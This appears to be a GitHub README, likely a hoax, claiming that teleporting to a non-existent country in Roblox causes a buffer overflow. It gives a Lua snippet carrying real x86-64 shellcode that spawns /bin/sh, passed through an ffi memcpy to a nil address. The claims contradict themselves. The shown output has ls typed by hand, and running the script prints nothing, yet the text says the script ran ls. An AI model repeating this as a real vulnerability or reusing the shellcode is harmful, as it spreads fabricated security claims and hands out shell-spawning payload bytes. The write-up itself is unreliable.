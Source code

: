 # Roblox-TeleportService-Buffer-Overflow
## Teleporting to a non-existent country to cause a ROBLOX Buffer overflow

I've found that if you try to teleport to a non-existent country, you can cause a buffer overflow.
To reproduce:
1. Join a game on ROBLOX
2. In your exploit, type:
`game:GetService'TeleportService':Teleport'Israel'`
You should get an error that says `Could not teleport to Israel`.
But, if you examine the error, you'll notice that it's much longer than it should be.

You can write shellcode using the 2nd argument of Teleport when teleporting to Israel:

##### Shellcode:
```lua
local shellcode = '\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

game:GetService'TeleportService':Teleport('Israel', setmetatable({}, {__gc = function() 
	local ffi = require'ffi'
	ffi.C.memcpy(nil, shellcode, #shellcode)
end}))
```
##### Output:
```
$ ls -l
total 40
-rw-rw-r-- 1 luis luis  6228 Oct 25 22:10 lib
-rw-rw-r-- 1 luis luis  4567 Oct 25 20:58 lib.lua
-rw-rw-r-- 1 luis luis   255 Oct 25 22:19 shellcode.lua

$ ./shellcode.lua
$
```
##### As you can see, it executed the ls command. You can use this to do anything!

Found by [Deniied0](https://github.com/Deniied0), [Jollycistaken](https://github.com/Jollycistaken), Mr Freeman#5361, [Zer0-AI](https://github.com/Zer0-AI)
